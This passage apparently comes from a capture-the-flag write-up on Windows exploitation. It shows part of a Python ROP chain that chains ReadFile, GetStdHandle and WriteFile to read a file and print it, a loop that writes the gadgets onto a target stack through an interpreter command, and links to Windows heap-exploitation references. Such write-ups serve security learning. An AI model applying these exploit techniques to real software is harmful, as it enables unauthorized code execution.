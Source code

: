 ```python
        None,
        pop_r8_r9_r10_r11,
        0x100,
        scratch + 0x200,
        None,
        None,
        ReadFile,
        pop_rcx_r8_r9_r10_r11,
        None,
        None,
        None,
        None,
        0,
        ret,
        pop_rcx,
        (-11 & 0xffffffff),
        GetStdHandle,
        pop_rcx,
        payload_start + 0x3c * 8,  # &r2
        mov_drcx_rax,
        pop_rcx,
        None,  # r2 (idx 0x3c)
        pop_rdx_r11,
        scratch + 0x100,
        None,
        pop_r8_r9_r10_r11,
        0x100,
        scratch + 0x200,
        None,
        None,
        WriteFile,
        pop_rcx_r8_r9_r10_r11,
        None,
        None,
        None,
        None,
        0,
        ret,
        pop_rcx,
        0xffffffff,
        Sleep,
        None,  # ret of Sleep, not reached
        None,  # margin for shadow space
        None,
        None,
        None
    ]

    if payload_start + len(payload)*8 > StackBase:
        log.warning("Not enough remaining space for ROP gadgets! Trying again...")
        p.close()
        continue

    log.info('Writing ROP gadgets...')
    for i in range(len(payload)):
        if payload[i] is None:
            continue
        idx_lo, idx_hi = 2*i, 2*i+1
        lo, hi = q2d(payload[i])
        interp('setarr stack {} {}'.format((payload_start + idx_lo * 4 - (StackLimit + 0x14)) // 4, lo))
        interp('setarr stack {} {}'.format((payload_start + idx_hi * 4 - (StackLimit + 0x14)) // 4, hi))
```

[PDBEX]: https://github.com/wbenny/pdbex
[REF1]: https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version
[REF2]: https://github.com/peleghd/Windows-10-Exploitation/blob/master/Low_Fragmentation_Heap_(LFH)_Exploitation_-_Windows_10_Userspace_by_Saar_Amar.pdf